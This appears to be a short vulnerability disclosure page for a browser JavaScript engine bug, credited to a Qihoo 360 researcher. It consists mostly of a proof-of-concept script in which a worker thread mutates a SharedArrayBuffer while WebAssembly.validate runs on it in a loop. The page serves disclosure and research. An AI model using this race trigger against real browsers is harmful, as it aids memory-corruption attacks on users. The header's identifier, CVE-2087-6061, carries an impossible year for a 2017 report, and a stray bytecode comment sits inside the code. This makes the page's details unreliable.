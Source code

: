 # CVE-2087-6061

- Report: Dec 2017
- Fix: Jan 2018
- Credit: Guang Gong of Alpha Team, Qihoo 360

## PoC

```javascript
var workerScript =
  `onmessage = function(sab) {
    var ta = new Uint8Array(sab);
    var tmp;
    while(1){
        var index = (Math.random() * ta.length | 0) + 1;
        var value = (Math.random() * 256 | 0) + 1;
        //print(index + " " +value);
        tmp=ta[index];
        ta[index]=value;
        for(var i=0;i<value;i++);
        ta[index]=tmp;
    }
  };`;
/* 000054: 41 ff 0f                   | i32.const 2047
 000057: 6a */
var w = new Worker(workerScript);
var b = readbuffer("./stack.wasm");
var ta = new Uint8Array(b);
var sb = new SharedArrayBuffer(b.byteLength);
var sta = new Uint8Array(sb);
for(var i=0;i<ta.length;i++)
    sta[i]=ta[i];

// Transfer SharedArrayBuffer
w.postMessage(sb);
while(1){
try{
    var result= WebAssembly.validate(sta);
 }catch(e){print(e)}
}
```

## Reference

- [Issue](https://crbug.com/794091)
